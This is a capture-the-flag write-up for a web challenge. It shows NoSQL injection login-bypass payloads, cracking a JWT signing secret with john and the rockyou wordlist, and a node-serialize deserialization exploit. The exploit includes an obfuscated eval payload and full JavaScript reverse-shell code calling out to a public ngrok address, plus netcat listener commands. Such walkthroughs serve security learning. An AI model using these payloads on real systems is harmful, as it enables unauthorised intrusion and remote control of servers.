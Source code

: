 # Description

Hello and welcome everyone to my WriteUp for the "Breakfast with Grandma" Challenge By the author `@j3x` for the event PWN TILL S'HOUR for this year Held By The Club of @Shellmates
I'd just to point out that this is my first ever doing a WriteUp for a CTF challenge so if it is too long or something like that I apologize from now since I'm trying not only to write The Solution but as well as the thinking procedure that lead us to the Flag, So let's Go : 

### NoSQL injection
1. We Are Faced with a login page as shown in the Following image : 

![alt text](login.png)
![alt text](JSON-Credits.png)

After following around a bit with the debugger and Burp Suite we can see that the response that contains the credentials inputted in the form is returned through JSON Format (here i said it's definitely a NoSQL Injection since they are who use JSON, i did some testing to confirm is was node with Mongo in burp like this : )


![alt text](Node-error.png)

### So what is a `NoSQL` injection?

NoSQL injection is a security weakness in a web application that uses a NoSQL database, can allow attackers to bypass authentication, exfiltrate sensitive data, tamper with data on the database, or even compromise the database and the underlying server Most NoSQL injection vulnerabilities occur because developers accept and process user inputs without properly sanitizing them

### We go back to our challenge

First i tried with admin credits Injection like this : 
`{"username":"admin","password":{"$ne": "x"}}`
Work then i changes it to this and we have a successful login (ofc we use Burp to send the request , u can also use ZAP or cURL but this is more simple ): 
`{"username":{"$ne": "x"},"password":{"$ne": "x"}}`

![alt text](Payload-NoSQLi.png) 

![alt text](SuccessLogin-Dashboard.png)

Once Logged In we don't have much to See and since the description Talked about cookies then it's probably a good idea to check them in the Storage Tab using developper tools (CTRL SHIFT C , or just right click and select it ) 
We then find a JWT Token let's decrypt it using JWT.io : We Find an used ID , iat (expiration time or smth lmao ) and an also an encodedData which contains a Base64 Coded Text : 
`
{
  "userId": "********************",
  "encodedData": "eyJ1c2VybmFtZSI6ImJvYmJ5IiwiYWdlIjo0LCJmYXZvdXJpdGVNZWFsIjoiQ2VyZWFscyIsIl8ybmRGYXZNZWFsIjoiQ29va2llcyJ9",
  "iat": 1712537034
}
`
decode it using base64 -d command in terminal (or just use a tool like CyberChef ) we find it's the same data showed in the dashboard 
`{"username":"bobby","age":4,"favouriteMeal":"Cereals","_2ndFavMeal":"Cookies"}`

for more informations about NoSQL injection check [this link](https://book.hacktricks.xyz/pentesting-web/nosql-injection)

### JWT signatur bruteforcing
Let's Find the JWT Signature password using our friend john (a tool to brute force passwords ) like this : 
john token.txt -w=/usr/share/wordlists/rockyou.txt (make sure to put ur JWT token in the txt file correctly: no spaces or anything else cause it may cause problems and not be found ) 
"""
$ john token.txt -w=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (HMAC-SHA256 [password is key, SHA256 256/256 AVX2 8x])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
shellmatexx      (?)     
1g 0:00:00:01 DONE (2024-04-08 01:52) 0.8928g/s 3408Kp/s 3408Kc/s 3408KC/s shikoni..sheenyboy1
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
"""

The password is found : `shellmatexx`, this is gonna allow us to change the jwt as we which (only the base64 part, since the other ones are used for the session)

here we are bit stuck ig? let's take a look at the source code, after some good search we find a serialization/deserialization code, let's ask ChatGPT if it's vulnerable to RCE (Remote Code Execution ) , The answer Is YES 
Now we look for ready to use exploits for this case : i first found one which is the most commun/basic one let's test it : 
Source : https://www.exploit-db.com/exploits/45265
var serialize = require('node-serialize');
var payload = '{"rce":"_$$ND_FUNC$$_function (){require(\'child_process\').exec(\'ls /\', function(error, stdout, stderr) { console.log(stdout) });}()"}';
serialize.unserialize(payload);
 let's take the rce field and place it in our JSON format in place of one of the fields and the encode this : 
 

{"username":"bobby","age":4,"favouriteMeal":"_$$ND_FUNC$$_function (){require(\'child_process\').exec(\'ls /\', function(error, stdout, stderr) { console.log(stdout) });}()","_2ndFavMeal":"Cookies"}

BAse64 : 
eyJ1c2VybmFtZSI6ImJvYmJ5IiwiYWdlIjo0LCJmYXZvdXJpdGVNZWFsIjoiXyQkTkRfRlVOQyQkX2Z1bmN0aW9uICgpe3JlcXVpcmUoXCdjaGlsZF9wcm9jZXNzXCcpLmV4ZWMoXCdscyAvXCcsIGZ1bmN0aW9uKGVycm9yLCBzdGRvdXQsIHN0ZGVycikgeyBjb25zb2xlLmxvZyhzdGRvdXQpIH0pO30oKSIsIl8ybmRGYXZNZWFsIjoiQ29va2llcyJ9Cg==

and send it in out JWT token bu using Cyber Chef to encode it (dont forget the secret word )

![alt text](Encode-First-RCE-JWT.png)

This didnt work :

![alt text](First-RCE-Not-Working.png)

lets look for something else, after some digging up this article looked intresting as it had some resemblance to our challenge :
https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/

This Used some advance a bit technique to achieve Reverse Shell Using Eval 
{"rce":"_$$ND_FUNC$$_function (){ eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,49,50,55,46,48,46,48,46,49,34,59,10,80,79,82,84,61,34,49,51,51,55,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10))}()"}

// CODE USED FOR THE REVERSE SHELL 

var net = require('net');
var spawn = require('child_process').spawn;
HOST="3.125.188.168"; // ngrok provided public IP ADD
PORT="14447";  // ngrok provided public PORT 
TIMEOUT="5000";
if (typeof String.prototype.contains === 'undefined') { String.prototype.contains = function(it) { return this.indexOf(it) != -1; }; }
function c(HOST,PORT) {
    var client = new net.Socket();
    client.connect(PORT, HOST, function() {
        var sh = spawn('/bin/sh',[]);
        client.write("Connected!\n");
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
        sh.on('exit',function(code,signal){
          client.end("Disconnected!\n");
        });
    });
    client.on('error', function(e) {
        setTimeout(c(HOST,PORT), TIMEOUT);
    });
}
c(HOST,PORT);

This what we are gonna do : 
1-Encode the past code to Decimal (with comma as a seperator ) then put it inside the eval
2-put the eval and rest of the code in out Data's JSON format 
3-Following that we encode The Data's JSON To base64 and 
4-And last but not least put that in the JWT Token
Change the IP and Port (Use Ngrok for a public one and then forward it to your terminal )
in terminal : Sudo ngrok tcp 4444
in another terminal window : nc -lvp 4444
(for more details check this article : https://drxh3kr.medium.com/using-netcat-with-ngrok-ip-for-receiving-reverse-shell-25ba7a498aab)
and voila we have Reverse Shell : 
look around a bit and we find the flag in the root directory (/) and there u have it 


CAPTURE SHELLL ![alt text](Ngrok-RV-Flag.png)


Note : This was an Amazing and creative challenge for me , GG to the Author 



